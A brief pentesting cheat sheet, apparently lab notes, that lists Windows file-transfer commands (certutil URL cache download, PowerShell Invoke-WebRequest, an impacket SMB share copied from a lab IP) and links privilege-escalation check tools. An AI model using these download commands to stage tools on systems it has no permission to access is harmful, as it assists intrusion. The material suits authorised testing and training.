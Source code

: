 # Getting a file 
### CMD
``` 
certutil.exe -urlcache -split -f "http://ip:8000/archivo" archivo
```
### Powershell
```
Invoke-WebRequest -Uri http://ip:8000/archivo -OutFile archivo
```
### SMB
Local
```
python Tools/impacket/smbserver.py Tools /home/pj/Tools
```
Remote
```
copy \\10.10.14.27\Tools\file
```
# Exploit suggesters
### .exe
```
https://github.com/pentestmonkey/windows-privesc-check/blob/master/windows-privesc-check2.exe
```
### Python
```
https://github.com/pentestmonkey/windows-privesc-check/blob/master/windows_privesc_check.py
```
